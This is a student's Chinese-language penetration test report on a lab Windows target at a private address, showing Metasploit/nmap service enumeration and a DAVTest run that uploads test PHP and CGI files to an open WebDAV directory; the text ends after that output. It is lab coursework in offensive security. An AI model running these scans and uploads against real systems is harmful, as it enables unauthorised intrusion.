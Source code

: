 # 渗透测试报告

沈霁昀 201250048 软件学院

# 一、信息搜集阶段

1. 通过nmap扫描发现window靶机的ip地址`10.0.2.4`，PS：kali攻击机ip：10.0.2.15

2. 启动msfconfig，使用nmap扫描全端口，发现靶机开启了如下端口，及其服务版本：

   ```shell
   msf > workspace -a win08-r2
   [*] Added workspace: win08-r2
   [*] Workspace: win08-r2
   msf > db_nmap -sS -sV -sC -p- -n -v 10.0.2.4
   msf > services 
   Services
   ========
   host      port   proto  name        state  info
   ----      ----   -----  ----        -----  ----
   10.0.2.4  21     tcp    ftp         open   Microsoft ftpd
   10.0.2.4  22     tcp    ssh         open   OpenSSH 7.1 protocol 2.0
   10.0.2.4  80     tcp    http        open   Microsoft IIS httpd 7.5
   10.0.2.4  1617   tcp    java-rmi    open   Java RMI
   10.0.2.4  3000   tcp    http        open   WEBrick httpd 1.3.1 Ruby 2.3.1 (2016-04-26)
   10.0.2.4  4848   tcp    ssl/http    open   Oracle Glassfish Application Server
   10.0.2.4  5985   tcp    http        open   Microsoft HTTPAPI httpd 2.0 SSDP/UPnP
   10.0.2.4  8022   tcp    http        open   Apache Tomcat/Coyote JSP engine1.1
   10.0.2.4  8080   tcp    http        open   Sun GlassFish Open Source Edition  4.0
   10.0.2.4  8282   tcp    http        open   Apache Tomcat/Coyote JSP engine1.1
   10.0.2.4  8484   tcp    http        open   Jetty winstone-2.8
   10.0.2.4  8585   tcp    http        open   Apache httpd 2.2.21 (Win64) PHP/5.3.10 DAV/2
   10.0.2.4  9200   tcp    wap-wsp     open
   10.0.2.4  49153  tcp    msrpc       open   Microsoft Windows RPC
   10.0.2.4  49154  tcp    msrpc       open   Microsoft Windows RPC
   10.0.2.4  49179  tcp    java-rmi    open   Java RMI
   10.0.2.4  49180  tcp    tcpwrapped  open
   ```

# 二、漏洞分析与利用阶段

## （1）WebDAV服务漏洞

通过kali提供的WebDAV服务漏洞利用工具DAVTest。该工具会自动检测权限，寻找可执行文件的权限。一旦发现，用户就可以上传内置的后门工具，对服务器进行控制。同时，该工具可以上传用户指定的文件，便于后期利用。

```shell
root💀kali)-[~]
└─# davtest -url http://10.0.2.4:8585/uploads/                                                              
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.0.2.4:8585/uploads
********************************************************
NOTE    Random string for this session: TUv6QRb
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://10.0.2.4:8585/uploads/DavTestDir_TUv6QRb
********************************************************
 Sending test files
PUT     php     SUCCEED:        http://10.0.2.4:8585/uploads/DavTestDir_TUv6QRb/davtest_TUv6QRb.php
PUT     cgi     SUCCEED:        http://10.0.2.4:8585/uploads/DavTestDir_TUv6QRb/davtest_TUv6QRb.cgi
```